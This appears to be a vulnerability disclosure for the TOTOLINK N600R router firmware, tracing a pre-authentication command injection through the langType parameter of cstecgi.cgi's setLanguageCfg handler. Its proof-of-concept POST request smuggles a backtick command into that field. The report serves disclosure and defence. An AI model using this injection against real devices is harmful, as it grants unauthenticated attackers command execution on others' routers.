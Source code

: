 # Information



Vendor of the products:  Gion Electronics (Shenzhen) Co., Ltd.  (TOTOLINK)

Vendor's website:  [TOTOLINK](https://totolink.tw/)

Reported by:  Wang Jinshuai(3265296623@qq.com),   Tang Bingcheng(2640807724@qq.com)

Affected products:  TOTOLINK N600R

Affected firmware version:  V4.3.0cu.7866_B20220506

Firmware download address:  [N600R 雙倍飆速無線分享器｜TOTOLINK 台灣](https://totolink.tw/support_view/N600R)



# Overview

The vulnerability resides in the /web_cste/cgi-bin/cstecgi.cgi binary. The sub_4159F8 routine obtains user-supplied input from the frontend and concatenates it into the argument of the system() call without proper validation or sanitization, resulting in a pre-authentication command injection flaw. An unauthenticated attacker can submit specially crafted payloads to execute arbitrary system commands.



# Vulnerability details

Through analysis of the /web_cste/cgi-bin/cstecgi.cgi binary that provides the device’s web service, a pre-authentication command injection vulnerability was identified. Around line 260 in main, the program matches the user input against the string setting/setLanguageCfg, and upon a match, execution branches to approximately line 340.

![image-20250828151423665](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281514696.png)

It then consults the set_handle_t dispatch table to resolve the corresponding handler based on the matched value and invokes it.

![image-20250828151749581](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281517612.png)

The setLanguageCfg entry resolves to the handler at sub_415840.

![image-20250828152903482](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281529503.png)

At approximately line 405 in main, the resolved handler is retrieved and invoked.

![image-20250828152807766](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281528787.png)

The variable Var receives client-supplied data via the langType parameter and is directly concatenated into v5 using sprintf(). Due to the lack of strict input validation, an attacker can leverage backtick-based command substitution to execute arbitrary commands.

![image-20250826153724887](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130214.png)



# POC

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
"topicurl":"setting/setLanguageCfg",
"langType":"`ls -l > ../123.txt`"
}
```

# Effect Demonstration

![image-20250826153644908](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130729.png)




![image-20250826153629484](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130868.png)



